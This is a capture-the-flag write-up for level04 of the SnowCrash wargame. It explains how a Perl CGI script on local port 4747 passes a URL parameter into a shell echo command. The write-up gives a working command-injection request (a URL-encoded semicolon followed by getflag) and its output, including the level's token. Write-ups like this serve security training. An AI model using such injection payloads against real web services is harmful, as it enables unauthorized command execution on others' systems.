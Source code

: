 # level04
We arrive in the home folder of user `level04` where a perl script called `level04.pl` awaits us.
Very much like before, its UID is `flag04`, its GID is `level04` and its perms are `rws r-s r-x`

Opening it up, it looks like a frugal CGI program, which will be joined via a webserver and would return the output of `echo <something>` on both STDIN and STDERR.

# Resolution
A commentary in the program implies it should be joinable on port 4747 of localhost.
Sure enough, a `netstat -pant` tells us that there is something running on port 4747 already!

Let's connect to it !
```sh
level04@SnowCrash:~$ curl -v 'localhost:4747'
* About to connect() to localhost port 4747 (#0)
*   Trying 127.0.0.1... connected
> GET / HTTP/1.1
[...]
< HTTP/1.1 200 OK
[...]
```
It works!
For now, the only response we get is a newline, since the `$y` variable in the `x` subroutine is most probably empty.

The last line of the program informs us that it's the content of the `"x"` param in the url that gets sent into the x subroutine and further to the echo instruction.
Hence
```sh
level04@SnowCrash:~$ curl 'localhost:4747?x=woof'
woof
```

But what if we were injecting something unintended into the echo instruction? Something like `echo coucou; getflag` would indeed print out the flag since the CGI program is being run as user `flag04 `.

So let's put that into the `"x"` param. But first, the ';' character has to be URL-encoded so that it's not stripped out before the shell instruction.
```sh
level04@SnowCrash:~$ curl 'localhost:4747?x=woof%3Bgetflag'
woof
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

